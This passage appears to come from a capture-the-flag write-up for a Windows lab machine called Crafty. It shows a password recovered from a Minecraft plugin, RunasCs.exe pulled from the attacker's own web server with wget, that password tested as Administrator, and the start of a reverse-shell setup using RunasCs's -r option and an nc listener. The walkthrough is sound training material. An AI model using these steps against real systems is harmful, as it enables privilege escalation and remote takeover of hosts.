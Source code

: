       public void onDisable() {}
    }
    

It’s connecting to `rkon` on port 27015 with the password “s67u84zKq8IXw”. In
theory this is updating a `playercount.txt` in the web directory, though that
file doesn’t actually exist on Crafty.

### RunasCs

#### Test Password

Without access to SMB, LDAP, WinRM, Kerberos, or any other authenticated
Window services, I don’t have a good way to check this password from my host.
I’ll upload a copy of [RunasCs](https://github.com/antonioCoco/RunasCs) by
downloading a copy from the releases and hosting it on my Python web server.
Then, from a directory svc_minecraft can write to (I like to stage out of
`C:\programdata`), I can request it from Crafty:

    
    
    PS C:\programdata> wget http://10.10.14.6/RunasCs.exe -outfile RunasCs.exe
    PS C:\programdata> ls
    
        Directory: C:\programdata
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d---s-        4/10/2020  10:46 AM                Microsoft
    d-----       10/24/2023  12:34 PM                Oracle
    d-----         2/6/2024  12:40 AM                Package Cache
    d-----       11/21/2023   9:54 PM                regid.1991-06.com.microsoft
    d-----        9/15/2018  12:19 AM                SoftwareDistribution
    d-----        4/10/2020   5:48 AM                ssh
    d-----        4/10/2020  10:49 AM                USOPrivate
    d-----        4/10/2020  10:49 AM                USOShared
    d-----        8/25/2021   2:57 AM                VMware
    -a----        6/10/2024   6:29 PM          51712 RunasCs.exe
    

The basic syntax is `RunasCs.exe <username> <password> <cmd>`. With a bad
password, it fails:

    
    
    PS C:\programdata> .\RunasCs.exe Administrator notthepassword "cmd /c whoami"
    [-] RunasCsException: LogonUser failed with error code: The user name or password is incorrect
    

But with the password from the plugin it works:

    
    
    PS C:\programdata> .\RunasCs.exe Administrator s67u84zKq8IXw "cmd /c whoami"
    crafty\administrator
    

#### Shell

`RunasCs` has a `-r` option that takes an IP and port to connect stdin,
stdout, and stderr of the resulting process to, which works very much like a
reverse shell. With `nc` listening on TCP 443, I’ll run it:
